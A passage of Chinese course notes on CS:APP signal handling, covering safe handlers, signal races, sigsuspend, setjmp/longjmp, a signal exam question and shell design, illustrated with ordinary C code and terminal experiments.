exit 不安全，是因为它要调用 atexit 登记的函数并刷新标准 I/O 的缓冲区（16.10 节），这些都涉及共享的数据结构。处理程序中要终止进程，应当用 _exit。
安全的格式化输出#
既然 printf 不能用，处理程序要输出信息时，可以用教材 csapp.c 中的 SIO（Safe I/O）函数（课件 p.52）：
ssize_t sio_puts(char s[]) /* Put string */
ssize_t sio_putl(long v) /* Put long */
void sio_error(char s[]) /* Put msg & exit */它们只用 write 和自己栈上的变量实现，是可重入的；首字母大写的 Sio_puts 等是带错误检查的包装函数。用它们改写 sigint.c 的处理程序：
void sigint_handler(int sig) /* Safe SIGINT handler */
{
Sio_puts("So you think you can stop the bomb"
" with ctrl-c, do you?\n");
sleep(2);
Sio_puts("Well...");
sleep(1);
Sio_puts("OK. :-)\n");
_exit(0);
}printf 换成了 Sio_puts，exit 换成了 _exit，sleep 本身是安全的。原来的 fflush(stdout) 也不需要了，因为 write 不经过缓冲区。课件 p.53 介绍了更方便的 sio_printf，它支持 %c、%s、%d、%u、%x、%% 和长度修饰符 l、z：
Sio_printf("So you think you can stop the bomb"
" (process %d) with ctrl-%c, do you?\n",
(int) getpid(), 'c');⚠ 教材的 csapp.c 中没有 sio_printf
sio_printf 来自 CMU 15-213 课程后来更新的 csapp.c，教材配套的 csapp.c（Shell Lab handout 中的也是这一份）只有 sio_puts、sio_putl、sio_error。在默认环境上用这份 csapp.c 编译课件 p.53 的代码会报“隐式声明”的错误。要输出 PID，可以写成 Sio_puts("...(process "); Sio_putl((long) getpid()); Sio_puts(")...")，默认环境上按 Ctrl-C 后输出 So you think you can stop the bomb (process 956) with ctrl-c, do you?。
保存和恢复 errno#
很多异步信号安全的函数在出错时设置 errno。下面的程序中，主程序的 read 失败，errno 被设为 EBADF；在主程序读 errno 之前，一个信号到达，处理程序调用 waitpid，因为没有子进程而失败，把 errno 改成了 ECHILD：
void handler(int sig)
{
int olderrno = errno;
waitpid(-1, NULL, WNOHANG); /* 没有子进程：errno 变成 ECHILD */
if (save)
errno = olderrno;
}
int main(int argc, char **argv)
{
char c;
save = argc > 1;
Signal(SIGUSR1, handler);
if (read(-1, &c, 1) < 0) { /* 失败，errno = EBADF */
raise(SIGUSR1); /* 信号恰好在这里到达 */
printf("read failed: %s\n", strerror(errno));
}
return 0;
}不保存 errno 时输出 read failed: No child processes，主程序报告了一个与 read 毫无关系的错误；处理程序保存并恢复 errno 时，输出正确的 read failed: Bad file descriptor。raise 是“给自己发一个信号”，这里用它让信号准确地在这一点到达；真实程序中信号可能在任何两条指令之间到达，错误时有时无。
volatile 与 sig_atomic_t#
G4 和 G5 针对的是编译器的优化。主程序在一个循环中等待处理程序设置的标志：
int flag = 0; /* 没有 volatile */
void handler(int sig) { flag = 1; }
int main(void)
{
signal(SIGALRM, handler);
alarm(1); /* 1 秒后收到 SIGALRM */
while (!flag)
;
printf("flag seen\n");
return 0;
}在默认环境上，用 -O0 编译，1 秒后输出 flag seen；用 -O2 编译，程序永远不结束。看 -O2 生成的代码就明白了：
10c3: mov 0x2f4b(%rip),%eax # 4014 <flag>
10c9: test %eax,%eax
10cb: jne 10d0 <main+0x30>
10cd: jmp 10cd <main+0x2d>编译器只在循环开始前读了一次 flag。它看不出循环体中有什么能改变 flag 的东西，于是认定 flag 在循环中不变，flag 为 0 时就进入地址 10cd 处跳回自己的死循环。处理程序确实把内存中的 flag 改成了 1，但循环再也不读内存。把声明改成 volatile sig_atomic_t flag，-O0 和 -O2 都在 1 秒后输出 flag seen。volatile 告诉编译器，每次用到这个变量都要从内存中读；sig_atomic_t 是一种整数类型，保证对它的读和写是一条指令完成的，不会被信号打断在一半。注意“原子”只针对单独的读或写，flag++ 这样“读、加、写”的操作仍然可能被打断。
★ 要点：六条规则各防什么
G0、G1 防的是处理程序与主程序同时使用不可重入的函数（printf、malloc）而破坏它们的内部数据；G2 防 errno 被改；G3 防主程序修改共享数据结构到一半时被处理程序看到或改掉；G4、G5 防编译器把共享的变量留在寄存器里。往年考题常问“处理程序中能否调用 printf”“为什么要保存 errno”“标志变量怎样声明”，答案都在这六条里。
17.9 待处理的信号不排队（课件 p.54–55）#
17.2 节说过，每种信号只有一个待处理位，所以同一种信号在被接收之前无论来多少次，都只算一次。这意味着不能用信号来对事件计数，比如数有多少个子进程终止了（课件 p.54）。课件的 fork14 就犯了这个错误：
volatile int ccount = 0;
void child_handler(int sig) {
int olderrno = errno;
pid_t pid;
if ((pid = wait(NULL)) < 0)
Sio_error("wait error");
ccount--;
Sio_puts("Handler reaped child ");
Sio_putl((long)pid);
Sio_puts(" \n");
sleep(1);
errno = olderrno;
}
void fork14() {
pid_t pid[N];
int i;
ccount = N;
Signal(SIGCHLD, child_handler);
for (i = 0; i < N; i++) {
if ((pid[i] = Fork()) == 0) {
Sleep(1);
exit(0); /* Child exits */
}
}
while (ccount > 0) /* Parent spins */
;
}父进程创建 5 个子进程，每个子进程睡 1 秒后退出；父进程的处理程序每被调用一次，就用 wait 回收一个子进程，把计数减一；主程序等计数降到 0。设想是 5 个 SIGCHLD 调用 5 次处理程序。默认环境上的运行结果：
Handler reaped child 198
Handler reaped child 199
(hangs)程序挂住了，10 秒后被 timeout 杀掉。运行 50 次，49 次回收了 2 个子进程，1 次只回收了 1 个，从来没有回收全部 5 个。图 6 说明了原因：5 个子进程几乎同时退出，第一个 SIGCHLD 被接收，处理程序开始运行，回收一个子进程后睡 1 秒；处理程序运行期间 SIGCHLD 被隐式阻塞，后面到达的 4 个 SIGCHLD 只能留下一个待处理位；处理程序返回后这个待处理信号被接收，处理程序再运行一次，又回收一个。剩下 3 个子进程成了没有人回收的僵死进程，ccount 停在 3，主程序永远空转。偶尔只回收 1 个，是因为第一次处理程序开始运行时，其余 4 个子进程都还没有退出。
图 6 fork14 的时间线（课件 p.54）：几个 SIGCHLD 合并成一个待处理位，处理程序每次只回收一个子进程
正确的做法是：收到一个 SIGCHLD，只能说明至少有一个子进程终止了，处理程序应当把所有已经终止的子进程都回收掉（课件 p.55）：
void child_handler2(int sig)
{
int olderrno = errno;
pid_t pid;
while ((pid = wait(NULL)) > 0) {
ccount--;
Sio_puts("Handler reaped child ");
Sio_putl((long)pid);
Sio_puts(" \n");
}
if (errno != ECHILD)
Sio_error("wait error");
errno = olderrno;
}把 wait 放进循环，一直回收到没有子进程为止（wait 返回 −1、errno 为 ECHILD）。默认环境上 fork15 每次都回收全部 5 个子进程并正常结束。
⚠ 课件 p.55 的写法在 shell 中还需要 WNOHANG
child_handler2 的 wait 会阻塞：如果还有子进程在运行，处理程序会一直等它结束。fork15 中所有子进程都会很快退出，所以没有问题。在 shell 中，处理程序被一个后台作业的终止唤起时，其他作业可能还要运行很久，处理程序不能等它们。Shell Lab 和教材 8.5.7 节都写成 while ((pid = waitpid(-1, &status, WNOHANG)) > 0)：回收所有已经终止的子进程，没有就立即返回 0，退出循环。这时循环结束的条件不再是 errno 为 ECHILD，处理程序末尾也不应再检查 errno。
17.10 同步流以避免竞争（课件 p.56–58）#
处理程序和主程序并发运行，两者访问同一个数据结构时，结果可能取决于谁先谁后，这样的错误称为竞争（race）。课件 p.56–57 是一个简化的 shell：主程序每创建一个子进程，就用 addjob 把它加入作业表；SIGCHLD 的处理程序每回收一个子进程，就用 deletejob 把它从作业表中删去。两处修改作业表时都阻塞了所有信号，看上去很安全：
int main(int argc, char **argv)
{
int pid;
sigset_t mask_all, prev_all;
int n = N; /* N = 5 */
Sigfillset(&mask_all);
Signal(SIGCHLD, handler);
initjobs(); /* Initialize the job list */
while (n--) {
if ((pid = Fork()) == 0) { /* Child */
Execve("/bin/date", argv, NULL);
}
Sigprocmask(SIG_BLOCK, &mask_all, &prev_all); /* Parent */
addjob(pid); /* Add the child to the job list */
Sigprocmask(SIG_SETMASK, &prev_all, NULL);
}
exit(0);
}
void handler(int sig)
{
int olderrno = errno;
sigset_t mask_all, prev_all;
pid_t pid;
Sigfillset(&mask_all);
while ((pid = waitpid(-1, NULL, 0)) > 0) { /* Reap child */
Sigprocmask(SIG_BLOCK, &mask_all, &prev_all);
deletejob(pid); /* Delete the child from the job list */
Sigprocmask(SIG_SETMASK, &prev_all, NULL);
}
if (errno != ECHILD)
Sio_error("waitpid error");
errno = olderrno;
}问题出在这个程序默认了“父进程先于子进程运行”（课件 p.56）。fork 之后，内核可能先运行子进程，子进程很快执行完 /bin/date 并终止，内核向父进程发出 SIGCHLD；父进程恢复运行时，在执行 addjob 之前就接收了这个信号，处理程序回收子进程并调用 deletejob。可是作业表中还没有这个子进程，deletejob 什么也没删。处理程序返回后，父进程执行 addjob，把一个已经不存在的子进程加进了作业表，这一项永远不会被删掉（图 7（a））。
图 7 addjob 与 deletejob 的竞争（课件 p.56–58）：在 fork 之前阻塞 SIGCHLD，保证 deletejob 一定在 addjob 之后
在默认环境上观察这个竞争，给程序加了两处只用于观察的修改：子进程执行 /bin/true（不输出），主程序在 exit 之前睡 1 秒，等所有子进程都被回收后打印作业表中残留的作业数。正确的程序应当打印 0。运行 100 次，94 次残留 1 个作业，只有 6 次是 0。在 fork 之后、addjob 之前让父进程睡 10 毫秒，相当于“子进程总是先运行完”，20 次全部残留 5 个作业。
修正的办法是在 fork 之前阻塞 SIGCHLD，到 addjob 之后再解除（课件 p.58）：
int main(int argc, char **argv)
{
int pid;
sigset_t mask_all, mask_one, prev_one;
int n = N; /* N = 5 */
Sigfillset(&mask_all);
Sigemptyset(&mask_one);
Sigaddset(&mask_one, SIGCHLD);
Signal(SIGCHLD, handler);
initjobs(); /* Initialize the job list */
while (n--) {
Sigprocmask(SIG_BLOCK, &mask_one, &prev_one); /* Block SIGCHLD */
if ((pid = Fork()) == 0) { /* Child process */
Sigprocmask(SIG_SETMASK, &prev_one, NULL); /* Unblock SIGCHLD */
Execve("/bin/date", argv, NULL);
}
Sigprocmask(SIG_BLOCK, &mask_all, NULL); /* Parent process */
addjob(pid); /* Add the child to the job list */
Sigprocmask(SIG_SETMASK, &prev_one, NULL); /* Unblock SIGCHLD */
}
exit(0);
}这样，即使子进程先终止，它的 SIGCHLD 也只能成为父进程的待处理信号，要等父进程执行完 addjob、解除阻塞之后才被接收，deletejob 一定在 addjob 之后（图 7（b））。有两个细节值得注意。第一，子进程继承了父进程的阻塞集合，所以子进程在 execve 之前要先解除对 SIGCHLD 的阻塞，否则它运行的程序会带着一个被阻塞的 SIGCHLD 开始，如果那个程序自己也创建子进程，就收不到它们的 SIGCHLD。第二，addjob 时阻塞的是所有信号，而不只是 SIGCHLD，因为作业表还可能被其他信号的处理程序访问（G3）。同样的观察方式下，修正后的程序不论是否加 10 毫秒的延迟，20 次都残留 0 个作业。
★ 要点：竞争的修正模式
要保证“主程序的操作 A”一定在“处理程序的操作 B”之前，就在可能触发信号的那一步之前阻塞这个信号，做完 A 再解除阻塞。被阻塞的信号不会丢，只会推迟到解除阻塞的那一刻。Shell Lab 的 eval 中，fork 前阻塞 SIGCHLD、addjob 后解除，用的正是这个模式。
17.11 显式地等待信号（课件 p.59–65）#
shell 运行前台作业时，要等这个作业终止并被 SIGCHLD 的处理程序回收，才能读下一条命令。课件 p.59–60 用一个小程序模拟这种情形：处理程序回收子进程后把子进程的 PID 存进全局变量 pid，主程序循环等待 pid 变为非零。
volatile sig_atomic_t pid;
void sigchld_handler(int s)
{
int olderrno = errno;
pid = Waitpid(-1, NULL, 0); /* Main is waiting for nonzero pid */
errno = olderrno;
}
void sigint_handler(int s)
{
}
int main(int argc, char **argv) {
sigset_t mask, prev;
int n = N; /* N = 10 */
Signal(SIGCHLD, sigchld_handler);
Signal(SIGINT, sigint_handler);
Sigemptyset(&mask);
Sigaddset(&mask, SIGCHLD);
while (n--) {
Sigprocmask(SIG_BLOCK, &mask, &prev); /* Block SIGCHLD */
if (Fork() == 0) /* Child */
exit(0);
/* Parent */
pid = 0;
Sigprocmask(SIG_SETMASK, &prev, NULL); /* Unblock SIGCHLD */
/* Wait for SIGCHLD to be received (wasteful!) */
while (!pid)
;
/* Do some work after receiving SIGCHLD */
printf(".");
}
printf("\n");
exit(0);
}fork 之前阻塞 SIGCHLD，是为了保证 pid = 0 一定在处理程序设置 pid 之前执行，道理与 17.10 节相同。这个程序是正确的，但很浪费（课件 p.61）：主程序在一个忙等循环中不停地检查 pid，一直占着处理器。在默认环境上让子进程先工作 50 毫秒再退出，10 轮共 0.51 秒，用户态 CPU 时间也是 0.50 秒：等待的时间全都在空转。
课件 p.61 讨论了两种看起来更好的写法，它们都有问题。第一种在循环中调用 pause：
while (!pid) /* Race! */
pause();如果 SIGCHLD 恰好在 while (!pid) 检查之后、pause 开始之前到达，处理程序会把 pid 置为非零，但 pause 已经错过了这个信号，它要等下一个信号才会返回，而下一个可能永远不会来。这是一个竞争。这个窗口只有几条指令宽，直接运行很难碰上：默认环境上运行 200 次，全部正常结束。在检查与 pause 之间插入 1 毫秒的延迟，把窗口人为地拉宽，程序每次都在第一轮就永远挂住。
第二种用 sleep 代替 pause：
while (!pid) /* Too slow! */
sleep(1);这样不会永远挂住，因为 sleep 总会到时返回，但如果信号落进同样的窗口，就要白白等上将近 1 秒。
⚠ 课件 p.61 说 sleep 的写法“Will take up to one second to respond”，要补充条件
sleep 和 pause 一样，会被一个被捕获的信号提前唤醒。SIGCHLD 若在 sleep 期间到达，处理程序运行之后 sleep 立即返回，循环马上看到 pid 非零，并不慢。默认环境上让子进程先工作 50 毫秒，10 轮总共 0.51 秒，与忙等相同。只有信号落在“检查 pid 之后、进入 sleep 之前”的窗口里，sleep 才会一直睡满 1 秒；同样插入 1 毫秒的延迟让每次都落进窗口，10 轮用了 10.01 秒。所以 sleep 的写法慢在竞争窗口，不是慢在每一次等待。
正确的解决办法是 sigsuspend（课件 p.62）：
int sigsuspend(const sigset_t *mask);sigsuspend 暂时用 mask 替换当前的阻塞集合，然后挂起进程，直到收到一个信号：如果这个信号的行为是终止，进程不从 sigsuspend 返回就终止了；如果是运行一个处理程序，sigsuspend 在处理程序返回后返回，并把阻塞集合恢复为调用 sigsuspend 之前的状态。它等价于下面三条语句的原子（不可中断）版本：
sigprocmask(SIG_SETMASK, &mask, &prev);
pause();
sigprocmask(SIG_SETMASK, &prev, NULL);“原子”是关键：第一行解除对 SIGCHLD 的阻塞与第二行开始睡眠之间没有任何空隙，信号不可能落在两者之间，pause 的竞争就消除了。用 sigsuspend 改写的等待循环（课件 p.63）：
while (n--) {
Sigprocmask(SIG_BLOCK, &mask, &prev); /* Block SIGCHLD */
if (Fork() == 0) /* Child */
exit(0);
/* Wait for SIGCHLD to be received */
pid = 0;
while (!pid)
Sigsuspend(&prev);
/* Optionally unblock SIGCHLD */
Sigprocmask(SIG_SETMASK, &prev, NULL);
/* Do some work after receiving SIGCHLD */
printf(".");
}检查 pid 时 SIGCHLD 是被阻塞的，所以检查之后、睡眠之前，SIGCHLD 即使到达也只能待处理；Sigsuspend(&prev) 用 prev（不含 SIGCHLD 的原阻塞集合）替换阻塞集合并睡眠，待处理的 SIGCHLD 立刻被接收，处理程序运行，sigsuspend 返回时 SIGCHLD 又回到阻塞状态。循环是必要的，因为唤醒进程的可能是别的信号，比如 SIGINT（这个程序为 SIGINT 安装了一个空的处理程序，按 Ctrl-C 只会让 sigsuspend 返回一次，pid 仍为 0，循环继续等待）。默认环境上同样让子进程工作 50 毫秒，10 轮共 0.51 秒，用户态 CPU 时间只有 0.007 秒。
⚠ 课件 p.62 和教材的等价写法中，第一行应是 SIG_SETMASK
课件 p.62 把等价写法的第一行写成 sigprocmask(SIG_BLOCK, &mask, &prev)，教材 8.5.7 节也是这样写的。可是 sigsuspend 的语义是用 mask 替换阻塞集合，而 SIG_BLOCK 是把 mask 加进阻塞集合。两者的差别正好体现在 p.63 的用法里：mask 是不含 SIGCHLD 的 prev，按“加进”理解，SIGCHLD 仍然被阻塞，sigsuspend 永远等不到它。默认环境上的实验：先阻塞 SIGUSR1，给自己发一个 SIGUSR1 使它待处理，再调用 sigsuspend(&empty)，处理程序立刻运行，sigsuspend 随即返回。这说明 SIGUSR1 被解除了阻塞，mask 是替换而不是加入。所以第一行应当是 sigprocmask(SIG_SETMASK, &mask, &prev)。
信号处理程序这么难写，实际的程序怎么办？课件 2026 版新增的 p.64–65 给出了答案：许多实际的服务器程序采用事件驱动（event-driven）的编程模型，主程序是一个循环，用 select、poll、epoll 一类的系统调用同时等待多种事件，事件到了再在主程序中按顺序处理，尽量不在处理程序中做事（Linux 还提供 signalfd，把信号也变成一个可以读的文件描述符）。课件的“笑话”说得好：学习 sigprocmask、sigsuspend 这些机制，不是因为实际编程一定要这样写，而是因为“我们是来学习计算机系统的，不是来逃避计算机系统的”。
17.12 非本地跳转：setjmp 与 longjmp（课件 p.67–73）#
异常控制流的最高一层完全在用户程序内部（课件 p.67）。C 语言提供一种用户级的机制，把控制从一个函数直接转移到另一个正在执行的函数中，而不经过正常的调用与返回，这称为非本地跳转（nonlocal jump）。它强大但危险，常用于错误恢复和信号处理。
#include <setjmp.h>
int setjmp(jmp_buf env);
void longjmp(jmp_buf env, int retval);setjmp 必须在 longjmp 之前调用，它为后面的 longjmp 标记一个返回地点。它的实现是把当前的调用环境保存在缓冲区 env 中：被调用者保存的寄存器、栈指针和程序计数器（返回地址），然后返回 0。setjmp 的特别之处在于调用一次，返回一次或多次：第一次返回是正常的返回，值为 0；之后每次对同一个 env 调用 longjmp，setjmp 都会“再返回一次”。
longjmp 的意思是：从 env 记住的那次 setjmp 再返回一次，这次的返回值是 retval 而不是 0（课件 p.68）。它的实现是从 env 中恢复寄存器、栈指针和程序计数器，把返回值寄存器设为 retval，然后跳到 env 中保存的程序计数器处。所以 longjmp 调用一次，从不返回。retval 不能用来让 setjmp 返回 0：在默认环境上调用 longjmp(env, 0)，setjmp 返回的是 1，C 标准就是这样规定的，免得与第一次的正常返回混淆。
非本地跳转的典型用途是从深层嵌套的函数中直接返回到最初的调用者，跳过中间的所有函数（课件 p.69–70）：
jmp_buf buf;
int error1 = 0;
int error2 = 1;
void foo(void), bar(void);
int main()
{
switch(setjmp(buf)) {
case 0:
foo();
break;
case 1:
printf("Detected an error1 condition in foo\n");
break;
case 2:
printf("Detected an error2 condition in foo\n");
break;
default:
printf("Unknown error condition in foo\n");
}
exit(0);
}
/* Deeply nested function foo */
void foo(void)
{
if (error1)
longjmp(buf, 1);
bar();
}
void bar(void)
{
if (error2)
longjmp(buf, 2);
}main 第一次调用 setjmp 得到 0，调用 foo；foo 调用 bar；bar 检测到 error2，调用 longjmp(buf, 2)，控制直接回到 main 的 setjmp，这次 setjmp 返回 2，switch 走到 case 2。默认环境上输出 Detected an error2 condition in foo。foo 和 bar 的栈帧被一次性丢弃了，它们都没有执行到自己的 return。这与 C++、Java 中的 try、catch 很相似：setjmp 像 catch，longjmp 像 throw。
非本地跳转的限制#
非本地跳转必须遵守栈的纪律：只能跳到一个已经被调用、但还没有返回的函数的上下文中（课件 p.71–72）。图 8（a）是可以的情形：P1 调用 setjmp 后，经过若干层 P2 调用了 P3，P3 调用 longjmp，env 指向的 P1 的栈帧还在栈上，跳回去之后中间的帧被丢弃，栈正好回到 P1 调用 setjmp 时的样子。（b）是不可以的情形：P2 调用 setjmp 之后已经返回，它的栈帧不存在了，P1 接着调用 P3，P3 的栈帧占用了原来 P2 的位置；这时 P3 调用 longjmp，跳到的是一个早已消失的栈帧，栈指针指向的内容是 P3 留下的，结果没有定义。
图 8 非本地跳转只能跳到尚未返回的函数（课件 p.71–72）
“没有定义”在实际中意味着什么都可能发生。默认环境上按（b）写一个程序，P2 在 setjmp 第二次返回时打印一行，回来第 3 次时用 __builtin_trap 主动终止，免得无休止地跳下去：
#include <setjmp.h>
#include <stdio.h>
jmp_buf env;
volatile int count = 0;
void P2(void)
{
if (setjmp(env)) { /* 再次回到这里时，P2 的栈帧早已不存在 */
printf("back in P2 (count = %d)\n", count);
if (++count >= 3) { printf("giving up\n"); fflush(stdout); __builtin_trap(); }
}
}
void P3(void) { char pad[64] = {0}; (void)pad; longjmp(env, 1); }
int main(void) { P2(); P3(); printf("main ends\n"); return 0; }用 -O0 编译，打印一次 back in P2 之后，“返回”到了 main 中 P3 的调用之后，程序看起来正常结束；用 -O2 编译，程序在 P2 和 P3 之间来回跳，反复打印 back in P2。两种结果都不是程序员想要的，而且换一个编译选项就变了。
常见问题：longjmp 回来以后，局部变量的值是多少？
setjmp 只保存寄存器，不保存内存中的变量。如果一个局部变量在 setjmp 之后、longjmp 之前被修改过，longjmp 回来后它的值是不确定的（C 标准 7.13.2.1）：编译器可能把它放在寄存器里，寄存器的值被恢复成 setjmp 时的样子；也可能放在栈上，保留修改后的值。默认环境上的实验：main 中 int a = 1; volatile int b = 1;，setjmp 之后把两者都改为 2，再 longjmp 回来打印。用 -O0 编译输出 a = 2, b = 2；用 -O2 编译输出 a = 1, b = 2。需要在 longjmp 之后使用的局部变量，应当声明为 volatile。
把信号和非本地跳转放在一起#
课件 p.73 的程序在用户按 Ctrl-C 时重新开始，而不是终止：
#include "csapp.h"
sigjmp_buf buf;
void handler(int sig)
{
siglongjmp(buf, 1);
}
int main()
{
if (!sigsetjmp(buf, 1)) {
Signal(SIGINT, handler);
Sio_puts("starting\n");
}
else
Sio_puts("restarting\n");
while(1) {
Sleep(1);
Sio_puts("processing...\n");
}
exit(0); /* Control never reaches here */
}程序第一次执行 sigsetjmp 时返回 0，安装 SIGINT 的处理程序，打印 starting，然后进入每秒打印一次的循环。按下 Ctrl-C，处理程序调用 siglongjmp，控制回到 sigsetjmp，这次返回 1，程序打印 restarting，重新进入循环。处理程序没有返回，而是直接跳回了 main，这就是“重新开始”。默认环境上的终端记录（最后用 Ctrl-\ 发送 SIGQUIT 终止它）：
linux> ./restart
starting
processing...
processing...
processing...
^Crestarting
processing...
processing...
^Crestarting
processing...
processing...
processing...
^Crestarting
^Crestarting
^Crestarting
^\Quitsigsetjmp 和 siglongjmp 是 setjmp 和 longjmp 可以在信号处理程序中使用的版本。区别在于阻塞集合：sigsetjmp(buf, 1) 的第二个参数非零，表示同时保存当前的阻塞集合，siglongjmp 时恢复它。这一点很重要。SIGINT 的处理程序运行时，SIGINT 被隐式阻塞（17.7 节），本来处理程序返回时会自动解除；可是这个处理程序不返回，而是跳走了，如果不恢复阻塞集合，SIGINT 就一直处于阻塞状态。在默认环境上把程序改用 setjmp 和 longjmp，结果正是这样：
linux> ./restart_plain
starting
processing...
processing...
^Crestarting
processing...
processing...
^Cprocessing...
processing...
processing...
^\Quit第一次 Ctrl-C 正常重新开始，第二次 Ctrl-C 没有任何反应，SIGINT 从第一次跳转之后就再也没有被解除阻塞。
⚠ 课件 p.73 的程序依赖一个前提
siglongjmp 不在异步信号安全函数的列表中。从处理程序跳回主程序是安全的，前提是被打断的主程序代码本身是安全的：这个程序的主循环只调用 Sleep 和 Sio_puts，打断它们后直接放弃，不会留下损坏的数据。如果信号打断的是 printf 或 malloc，跳走之后它们内部的锁和缓冲区就永远停在不一致的状态。另外，安装处理程序的语句写在 if (!sigsetjmp(...)) 的分支里，保证处理程序被安装之前 buf 已经初始化，这也是必须的。
17.13 专题：分析带信号的程序的输出#
往年的期末考试几乎每年都有一道信号题，题型和上一讲的 fork 题相似：给一段程序，问可能的输出，或判断某个输出是否可能。做法是在 16.13 节“画进程图、找约束”的基础上，再加上信号特有的几条规则。
第一，信号什么时候被处理：目的进程下一次从内核返回用户模式时（17.4 节）。实际做题时可以理解为“目的进程在发送之后的某个时刻处理它，可能立即，也可能晚一些”，但它一定在目的进程再执行用户代码之前处理，比如从 wait、pause、sleep 这类系统调用返回时。第二，信号不排队：同一种信号在处理之前到达多次，可能只处理一次（17.2、17.9 节）。第三，隐式阻塞：处理程序运行期间，同一种信号只能待处理，不会打断它，但不同的信号可以（17.6、17.7 节）。第四，进程不在了，信号就丢了：发给一个已经终止的进程的信号没有任何效果。第五，父子进程的变量是各自的副本：子进程的处理程序修改的全局变量，父进程看不到。
用这几条规则分析 2021 年期末第四题 PART B（考试冲刺讲义 5.5 节）：
int counter = 0;
int pid = 0;
int N = 2;
void handler1(int sig) {
counter++;
printf("%d", counter); fflush(stdout);
// Kill(pid, SIGUSR2);
}
void handler2(int sig) {
printf("R"); fflush(stdout);
}
int main() {
Signal(SIGUSR1, handler1);
Signal(SIGUSR2, handler2);
if ((pid = Fork()) == 0) { /* child */
for (int i = 0; i < N; ++i) {
printf("C"); fflush(stdout);
Kill(Getppid(), SIGUSR1);
}
} else { /* parent */
Wait(NULL);
}
return 0;
}子进程打印两次 C，每次之后给父进程发一个 SIGUSR1；父进程在 wait 中等待。子进程的两个 C 一定按顺序出现。父进程处理第一个 SIGUSR1 时打印 1，处理第二个时打印 2。两个 SIGUSR1 可能被分别处理，也可能在父进程处理第一个之前都已到达，合并成一个；所以父进程打印“1”或“12”。父进程至少处理一次：它在 wait 中睡眠，SIGUSR1 到达会把它从 wait 中唤醒，从内核返回时一定处理这个信号；即使没有唤醒，子进程终止后父进程从 wait 返回，同样要处理待处理的 SIGUSR1。每个数字在对应的 C 之后出现。由此，N = 2 时可能的输出是 CC1、CC12、C1C2，不可能是 CC（至少处理一次）。在默认环境上运行 2000 次，CC1 出现 1009 次，CC12 出现 982 次，C1C2 出现 9 次，正好是这三种。
取消 handler1 中的注释后，父进程每处理一个 SIGUSR1，就给子进程发一个 SIGUSR2，子进程收到后打印 R。新的问题是：子进程这时可能还活着，也可能已经发完两个信号终止了。子进程活着，R 就会出现在输出中；已经终止，SIGUSR2 就丢了。所以 R 可有可无，但 CC 仍然不可能。这个版本在默认环境上运行 3000 次（Kill 换成不检查错误的 kill，因为子进程可能已经终止），出现了十种不同的输出，最多的是 CC1（1846 次）和 CC12（1096 次），其次是 C1RC2R（50 次），C1RC2、C1CR2 各出现过 1 次，从未出现 CC。
⚠ 一个实测到的意外输出：CC1CR2
上面 3000 次中有 1 次输出是 CC1CR2，多了一个 C。子进程只调用了两次 printf("C")，第三个 C 是怎么来的？最可能的过程是：子进程正在执行 fflush(stdout)，write 已经把缓冲区中的 C 写了出去，但还没来得及把缓冲区标记为空，这时 SIGUSR2 到达，handler2 的 printf 把 R 追加到缓冲区，缓冲区里于是是 CR，handler2 的 fflush 把 CR 写了出去；回到被打断的 fflush，它接着把缓冲区清空。结果 C 被写了两次。这就是 17.8 节所说的，在处理程序中调用 printf 这样不可重入的函数会破坏它的内部数据。考试题默认不考虑这种情况，但真实的程序会出这种错误。
常见问题：这道题里的 pid 有没有可能是 0？
有可能。父进程执行 pid = Fork() 时，Fork 返回之后还要把返回值存进 pid；如果子进程在这之前就运行并发出了 SIGUSR1，父进程处理时 pid 仍是初值 0。取消注释的版本中，handler1 会执行 kill(0, SIGUSR2)，按 17.3 节 kill 的规则，这是把 SIGUSR2 发给自己所在进程组中的每个进程，包括父进程自己，于是父进程也会打印 R。在默认环境上用一个 for 循环在 bash 中连续运行这个程序时，曾经出现过整个循环被 SIGUSR2 终止的情况，因为 bash 运行的这个循环也在同一个进程组中。把 pid = Fork() 放在阻塞 SIGUSR1 的区域里，就能消除这个问题，这又是 17.10 节的模式。
17.14 拓展：shell 的设计取舍#
Shell Lab 要求实现的 tsh，与每天用的 bash、zsh、PowerShell 是同一类程序：读入一行命令，创建进程运行它，管理这些进程。上一讲和这一讲的 fork、execve、waitpid、进程组和信号，就是任何一个 shell 的骨架。可是同样的骨架之上，不同的 shell 做出了很不一样的选择：管道里传什么，错误怎样报告，语法是否兼容几十年前的标准。这一节从 shell 的几个核心功能出发，看每个功能是怎样用本讲的机制实现的，又有哪些取舍。
先分清终端与 shell#
日常说的“终端”其实是两样东西。iTerm2、macOS 的 Terminal.app、Windows Terminal 是终端模拟器：一个窗口程序，只负责把按键变成字节发出去、把收到的字符和转义序列（以 ESC 开头、控制光标和颜色的字节串）画到屏幕上，它们模仿的是早年的硬件终端。bash、zsh、PowerShell、tsh 是 shell：解释命令、创建进程的程序。两者之间隔着内核的终端驱动，Linux 和 macOS 上通过伪终端（pty）连接：终端模拟器持有伪终端的一端，shell 和它运行的程序把另一端当作自己的终端。按下 Ctrl-C 时，终端模拟器只是发出一个字节 0x03，是终端驱动的行规程把它变成 SIGINT，发给终端的前台进程组（17.3 节）。在默认环境上关掉行规程的 ISIG 标志再按 Ctrl-C，程序读到的就只是字节 0x03，不再收到信号；vim 这类全屏程序和 shell 自己的命令行编辑器都会这样切换终端模式，自己处理每一个按键。
终端模拟器之间的差别主要在显示和交互上。值得一提的是两个与本讲相关的设计。iTerm2 的“shell 集成”让 shell 在提示符、命令输出开始、命令结束时输出几个约定好的转义序列，带上退出码和当前目录，iTerm2 据此给每条命令加标记，失败的命令标红：终端看不到退出状态，只有用 waitpid 回收子进程的 shell 知道，所以要由 shell 告诉它。Windows 的控制台程序传统上不输出转义序列，而是调用控制台 API 的函数设置光标和颜色，第三方终端无法像伪终端那样插在中间；2018 年 Windows 10 加入伪控制台 ConPTY，把这些调用翻译成转义序列从管道送出，2019 年的 Windows Terminal 就建立在它之上。
shell 的骨架：内置命令与外部命令#
shell 的主循环就是 17.1 节的 shellex：读一行，解析成 argv，判断是不是内置命令，不是就 fork、execve，前台作业用 waitpid 等它结束。哪些命令必须做成内置命令？凡是要改变 shell 自己的状态的命令都必须。cd 改变当前目录，可是 fork 出来的子进程改变的是自己的当前目录，父进程不受影响（16.8 节：子进程得到的是一份副本）。默认环境上的实验：
$ pwd
/tmp/tmp.FFbfG6CbcJ
$ bash -c 'cd /tmp; pwd' # 在子进程中 cd
/tmp
$ pwd # shell 自己没有变
/tmp/tmp.FFbfG6CbcJ
$ type cd echo ls
cd is a shell builtin
echo is a shell builtin
